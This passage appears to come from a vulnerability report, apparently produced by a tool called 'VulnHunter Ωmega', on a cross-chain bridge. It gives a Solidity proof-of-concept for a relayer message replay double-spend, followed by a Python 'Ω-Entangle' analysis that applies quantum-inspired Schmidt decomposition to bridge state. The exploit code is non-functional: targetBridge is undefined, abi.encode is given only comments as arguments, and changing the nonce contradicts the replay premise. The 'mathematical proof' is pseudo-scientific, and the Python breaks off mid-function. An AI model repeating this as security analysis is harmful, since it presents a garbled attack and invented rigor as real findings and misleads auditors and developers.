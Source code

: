 ### **Attack Vector 2: Relayer Message Replay**
```solidity
// Proof-of-Concept: Cross-Chain Double Spend
contract RelayerReplayExploit {

    mapping(bytes32 => bool) public executedMessages;

    function exploitReplay() external {
        // Step 1: Capture legitimate cross-chain message
        bytes memory legitimateMessage = captureLegitimateMessage();
        bytes32 messageHash = keccak256(legitimateMessage);

        // Step 2: Wait for execution on destination chain
        require(executedMessages[messageHash], "Wait for legitimate execution");

        // Step 3: Replay message with modified nonce
        bytes memory replayMessage = modifyNonce(legitimateMessage);

        // Step 4: Execute replay attack
        IBridge(targetBridge).processMessage(replayMessage);

        // Result: Double execution of cross-chain transfer
    }

    function captureLegitimateMessage() internal view returns (bytes memory) {
        // Monitor bridge events for high-value transfers
        // Return captured message payload
        return abi.encode(msg.sender, 1000 ether, block.timestamp);
    }

    function modifyNonce(bytes memory original) internal pure returns (bytes memory) {
        // Modify nonce to bypass duplicate detection
        // Keep other parameters identical for successful replay
        return abi.encode(/* modified nonce */, /* original payload */);
    }
}
```

---

## **Mathematical Proof (Ω-Entangle Analysis)**

### **Entanglement Strength Calculation**
```python
# VulnHunter Ωmega Ω-Entangle Mathematical Analysis
def calculate_entanglement_strength(bridge_state):
    """
    Calculate quantum-inspired entanglement strength
    Based on Schmidt decomposition of cross-chain state
    """

    # Extract cross-chain state correlations
    bsc_state = bridge_state['bsc']
    eth_state = bridge_state['eth']

    # Calculate correlation matrix
    correlation_matrix = np.outer(bsc_state, eth_state)

    # Compute Schmidt decomposition
    U, s, Vh = np.linalg.svd(correlation_matrix)

    # Schmidt rank = number of non-zero singular values
    schmidt_rank = np.sum(s > 1e-10)
```
